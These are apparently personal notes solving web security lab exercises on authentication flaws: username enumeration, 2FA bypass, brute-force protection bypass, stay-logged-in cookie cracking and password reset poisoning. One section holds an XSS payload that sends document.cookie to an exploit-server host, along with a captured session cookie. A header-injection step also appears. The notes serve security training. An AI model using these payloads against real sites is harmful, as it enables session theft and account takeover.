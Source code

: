 ____

# Username enumeration via different responses

![[Pasted image 20240819055145.png]]

# 2FA simple bypass

```
Just try to access the next endpoint directly 

/my-account?id=carlos
```

# Password reset broken logic

```
Change username in POST request after password-reset link
```

![[Pasted image 20240819060645.png]]

# Username enumeration via subtly different responses

Grep extract

![[Pasted image 20240819074802.png]]

# Username enumeration via response timing

![[Pasted image 20240820125651.png]]

![[Pasted image 20240820125617.png]]

# Broken brute-force protection, IP block

You can reset the counter for the number of failed login attempts by logging in to your own account before this limit is reached. For example create a combined list with your valid credentials and with victim's creds

```
wiener - peter
carlos - kek
carlos - kek2
wiener - peter
carlos - kek3 etc...
```

![[Pasted image 20240821042000.png]]

# Username enumeration via account lock

It blocks only existing accounts, so try to brute the same list of passwords until one of accounts from the list is not blocked.
To brute password use grep with errors to find a request without error

![[Pasted image 20240821043248.png]]

![[Pasted image 20240821043325.png]]

# 2FA broken logic

```
Observe there is verify=wiener in cookie while sending 2FA code
Change it to our victim's nickname and simply brute 2FA code
```


# Brute-forcing a stay-logged-in cookie

Decoded Stay logged in from base64

wiener:51dc30ddc473d43a6011e9ebba6ca770

51dc30ddc473d43a6011e9ebba6ca770 --> md5 --> peter

![[Pasted image 20240829123137.png]]

# Offline password cracking

XSS
```html
<script>document.location='//exploit-0ae1001a041d54ab8236324601b70073/'+document.cookie</script>
```

/secret=T88cI38wn5zNcV3RIgyxp6qZayCMm1FG;%20stay-logged-in=Y2FybG9zOjI2MzIzYzE2ZDVmNGRhYmZmM2JiMTM2ZjI0NjBhOTQz

# Password reset poisoning via middleware

```
While processing forgot password set new header:
X-Forwarded-Host: exploit-server 
It will process Host Header Injection
```

/forgot-password?temp-forgot-password-token=qsh1gvoveepzfygxccgv5rzdelnn4tl2

# Password brute-force via password change

![[Pasted image 20240830070502.png]]



